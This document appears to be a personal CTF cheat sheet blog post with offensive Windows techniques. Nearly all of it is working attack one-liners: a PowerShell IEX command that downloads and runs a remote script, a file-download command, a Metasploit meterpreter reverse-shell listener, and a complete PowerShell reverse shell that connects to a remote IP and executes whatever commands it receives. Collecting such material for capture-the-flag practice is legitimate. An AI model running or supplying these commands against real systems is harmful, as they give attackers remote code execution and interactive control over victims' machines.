 ```yaml
---
title: Cheat Sheet
published: true
---
```


This is a Cheat sheet with misc stuff that i have collected doing different CTF's. This blogpost will be updated with more content... and maybe with an index to find stuff more easy.

## [](#header-2)Windows

### [](#header-3)Local priv esc

A good reference for Windows local priv esc.

<a href="https://book.hacktricks.xyz/windows/windows-local-privilege-escalation" target="_blank">https://book.hacktricks.xyz/windows/windows-local-privilege-escalation</a>


### [](#header-3)Download files

Read and execute a file from a weblink with powershell.

```
Powershell IEX(New-Object Net.WebClient).DownloadString('http://IP:PORT/FILENAME')
```

Download and output a file from powershell.

```
Powershell Invoke-WebRequest -Uri IPNUMMER:PORT/FILNAMN -OutFile FILENAME
```



### [](#header-3)Listener in Metasploit

Quick oneliner for setting up a listener in Metasploit for reverse shell for Windows. In this example it's a meterpreter listener.

```
sudo msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.14.10; set lport 4444; set ExitOnSession false; exploit -j"
```



### [](#header-3)Powershell reverse shell

A powershell oneliner for a reverse shell.

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.20",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 
```
